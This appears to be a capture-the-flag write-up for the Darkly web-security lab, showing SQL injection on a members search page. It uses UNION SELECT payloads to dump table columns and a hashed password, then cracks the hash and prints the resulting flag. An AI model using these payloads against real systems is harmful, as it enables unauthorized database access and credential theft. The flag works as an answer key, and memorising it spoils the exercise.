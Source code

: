 # SQL Injection - Members Search

See [SQL injection Images](https://github.com/anyashuka/Darkly/tree/master/SQL_Injection_Images) for SQL Injection description, use & prevention.


## Breach

Go to page:

{VM_IP}/index.php?page=member

We're going to be doing the same thing here as we did in the SQL image search injection. 
Insert the following commands into the image search bar:


### Test if vulnerable to SQL Injection

```1 OR 1=1```

... we get all the results because every row is considered true.


### Find table columns in the database for each table

```1 OR 1=1 UNION SELECT table_name, column_name FROM information_schema.COLUMNS```

Here we find:

* First name: users,
Surname : user_id
* First name: users,
Surname : first_name
* First name: users,
Surname : last_name
* First name: users,
Surname : town
* First name: users,
Surname : country
* First name: users,
Surname : planet
* First name: users,
Surname : Commentaire
* First name: users,
Surname : countersign


### Look at the comment below each user

```1 OR 1=1 UNION SELECT first_name, commentaire FROM users```

Here we find:

* First name: Flag,
Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !


### Find the countersign

```1 OR 1=1 UNION SELECT first_name, countersign FROM users```

* First name: Flag,
Surname : 5ff9d0165b4f92b14994e5c685cdce28

[md5 decrypt](https://md5decrypt.net)(5ff9d0165b4f92b14994e5c685cdce28) = FortyTwo
[sha256 encrypt](https://md5decrypt.net/Sha256)(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5

flag = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
